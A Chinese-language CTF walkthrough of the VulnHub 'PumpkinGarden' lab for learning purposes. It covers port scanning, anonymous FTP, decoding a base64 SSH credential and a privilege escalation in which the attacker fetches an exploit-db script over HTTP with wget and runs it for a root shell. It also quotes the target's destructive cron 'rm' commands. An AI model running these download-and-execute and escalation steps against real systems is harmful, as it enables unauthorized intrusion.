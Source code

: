 # PumpkinGarden-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/mission-pumpkin-v10-pumpkingarden,321/

**Description**

Mission-Pumpkin v1.0 is a beginner level CTF series, created by keeping beginners in mind. This CTF series is for people who have basic knowledge of hacking tools and techniques but struggling to apply known tools. I believe that machines in this series will encourage beginners to learn the concepts by solving problems. PumpkinGarden is Level 1 of series of 3 machines under Mission-Pumpkin v1.0. The end goal of this CTF is to gain access to PumpkinGarden_key file stored in the root account.

**知识点**

无重要知识点

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinGarden/1.png)

排除法,去掉自己、宿主机、网关,这里 `192.168.141.128` 是靶机的地址。

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.128
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinGarden/2.png)

从 nmap 的探测结果看，存在 ftp、http、ssh 服务,且 ftp 允许匿名登录，vsftpd 的版本是 2.0.8 或之后，也没找到可利用的漏洞

从 ftp 匿名登录入手
```
ftp 192.168.141.128
    anonymous
    密码为空,直接回车
ls
get note.txt
bye
```

看一下发现的 note.txt
```
cat note.txt
Hello Dear!
Looking for route map to PumpkinGarden? I think jack can help you find it.
```

提示说 jack 可以帮助你，可能是个用户名。

看下 http 的情况

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinGarden/3.png)

一个南瓜猫猫头,页面上没有可交互的内容, Ctrl+U 看下源码

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinGarden/4.png)

```
searching for the route map? Pumpkin images may help you find the way
```
提示图片有些东西,访问 `/img` 路径下

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinGarden/5.png)

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinGarden/6.png)

像个 base64
```bash
echo "c2NhcmVjcm93IDogNVFuQCR5" | base64 -d
scarecrow : 5Qn@$y
```

看上去是 ssh 的账号密码,登上去试试

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinGarden/7.png)

home 目录里的 note.txt 给出了 goblin Y0n$M4sy3D1t 这个账号密码，su 切换过去

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinGarden/8.png)

按照 goblin home 目录 note 文件给出的提示

下载 https://www.securityfocus.com/data/vulnerabilities/exploits/38362.sh

> 注 : 我访问报 503 Service Temporarily Unavailable ,下载 https://www.exploit-db.com/exploits/11651 这个也一样

> 注意 : https://www.exploit-db.com/exploits/11651 的存在 /bin/sh^M : bad interpreter 问题

kali 下载 payload
```bash
wget https://www.exploit-db.com/download/11651

vim 11651
:set ff=unix
:wq!

python -m SimpleHTTPServer 8000
```

靶机下载,运行
```bash
cd
wget 192.168.141.134:8000/11651
chmod +x 11651
./11651 /bin/sh
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinGarden/9.png)

---

后台运行了删除脚本的命令
```bash
/bin/sh -c sleep 30; rm /home/goblin/*.*
/bin/sh -c sleep 30; rm /tmp/*
```

我这里是在 goblin 用户的 home 目录下运行的,且没给他后缀名,所以没受影响 :)
